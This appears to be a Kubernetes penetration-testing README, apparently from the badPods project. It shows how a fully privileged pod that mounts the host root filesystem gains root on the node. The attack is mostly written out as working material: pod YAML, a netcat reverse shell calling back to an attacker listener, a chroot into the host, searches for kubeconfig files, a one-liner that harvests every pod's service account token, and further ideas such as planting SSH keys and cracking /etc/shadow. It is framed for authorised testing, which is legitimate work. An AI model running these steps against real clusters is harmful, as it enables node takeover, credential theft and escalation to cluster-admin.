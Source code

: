 # You can create a pod with all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-everything-allowed.yaml](pod-everything-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-everything-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/everything-allowed/pod-everything-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-everything-allowed -- chroot /host
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-everything-allowed-revshell.yaml](pod-everything-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/everything-allowed/pod-everything-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
~ chroot /host
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

#### Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# Reference(s)/Acknowledgements: 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
  
